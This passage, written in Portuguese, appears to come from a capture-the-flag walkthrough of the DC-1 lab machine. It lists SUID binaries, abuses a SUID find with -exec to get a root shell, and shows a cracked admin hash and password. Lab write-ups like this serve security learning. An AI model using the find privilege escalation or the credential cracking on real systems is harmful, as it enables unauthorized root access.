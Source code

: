 
com isso vou usar o comando para encontrar possiveis artificios com permissão root

MEMORIZE
```
find / -perm -u=s -type f 2>/dev/null
```

```
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find  ***********************************************
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
```

se o find executa como root é só eu usa-lo para encontrar uma coisa que eu sei que vou encontrar e executar comando arbitrários posteriormente. 

PoC

```
find / -name flag4.txt -exec "whoami" \;
root
```

Dessa forma então....

```
www-data@DC-1:/var/www$ find / flag4.txt -exec "/bin/sh" \;
find / flag4.txt -exec "/bin/sh" \;
# whoami
whoami
root
```

Nesse meio tempo o hashcat quebrou a senha do admin.

```
admin
$S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR:53cr3t
```

Agora com privilegio de admin vamos até o diretório /admin/ e ver o que conseguimos com isso, avaliando as sessões como por exemplo *dashboard* encontramos a flag3
